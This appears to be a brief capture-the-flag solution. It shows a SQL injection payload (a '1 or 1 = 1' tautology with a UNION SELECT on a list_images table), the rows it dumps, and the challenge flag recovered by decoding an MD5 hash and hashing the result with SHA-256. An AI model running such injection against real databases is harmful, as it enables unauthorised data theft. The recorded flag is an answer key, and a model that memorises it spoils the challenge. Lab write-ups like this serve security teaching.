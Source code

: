 list_images : id -- url -- title -- comment .

1 or 1 = 1 UNION SELECT t.id, t.comment FROM list_images AS t


ID: 1 or 1 = 1 UNION SELECT t.id, t.comment FROM list_images AS t 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 5

1928e8083cf461a51303633093573c46 => albatroz => sh256 => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188